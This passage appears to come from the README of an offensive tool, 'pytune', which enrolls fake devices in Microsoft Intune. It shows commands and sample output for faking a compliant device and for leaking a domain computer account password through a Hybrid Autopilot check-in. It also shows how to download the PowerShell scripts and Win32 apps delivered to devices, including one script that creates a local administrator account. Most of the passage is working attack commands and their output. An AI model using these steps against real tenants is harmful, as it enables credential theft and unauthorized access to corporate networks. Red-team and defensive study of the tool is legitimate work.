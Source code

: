 You can modify what settings are sent as a fake device, for example, in `device/windows.py`.
Then, re-enroll and check-in again so that you can get a fake device being marked as compliant.

### Leak domain computer credentials

When Hybrid Autopilot is configured, you can leak a domain computer's credential for initial access.
To enroll a fake device as AutoPilot, you need to get a hardware hash from your test machine.

As for the hardware hash retrieval, you can referer to the following page.

https://learn.microsoft.com/en-us/autopilot/add-devices#powershell

Then, you can provide the hardware hash in `-H` parameter in `checkin` command.

```
$ python3 pytune.py check_compliant -o Windows -c Windows_pytune.pfx -u testuser@*******.onmicrosoft.com -p *********** -H $HWHASH
```

Then, after the initial check-in with the hardware hash, the next check-in will give you the domain credential.

```
[+] got online domain join blob
[*] parse domain join info...
 - domain: vuln.local
 - computername: DESKTOP-PZjn0P9$
 - computerpass: _`@#"%zsw^W***********************************************
```

### Download Win32 apps and PowerShell scripts

If there are Win32 apps or PowerShell scripts to be delviered, you can donwload it through `download_apps` command.
Here is the example of the command.

```
$ python3 pytune.py download_apps -d Windows_pytune -m Windows_pytune_mdm.pfx                                                                            
[*] downloading scripts...
[!] scripts found!
[*] #1 (policyid:f7e2c3b6-b57f-43fb-a17f-2feab218806b):

$userName = "pcadmin"
$password = "SuperSecurePassword" 
$securePassword = ConvertTo-SecureString -String $password -AsPlainText -Force

New-LocalUser -Name $userName -Password $securePassword -FullName "Local Administrator" -Description "Local Admin User" -PasswordNeverExpires
Add-LocalGroupMember -Group "Administrators" -Member $userName

[*] downloading win32apps...
[!] found ContosoCorpCustomApp!
[*] downloading from http://swdc01-mscdn.manage.microsoft.com/3decc354-7c51-4c78-9f40-7eb57efbe447/6505c9ee-4847-4d5c-a7bb-aa99ec92d674/4ad4d2b8-9210-4496-ad12-11f48d255119.intunewin.bin ...
[+] successfully downloaded to ContosoCorpCustomApp.intunewin!
[!] found DomainJoin.bat!
[*] downloading from http://swdc02-mscdn.manage.microsoft.com/3decc354-7c51-4c78-9f40-7eb57efbe447/f7131f16-29ef-415d-b549-ea706cba6da0/e9c4f14e-9d76-4797-a697-7139d64c8975.intunewin.bin ...
[+] successfully downloaded to DomainJoin.bat.intunewin!
```
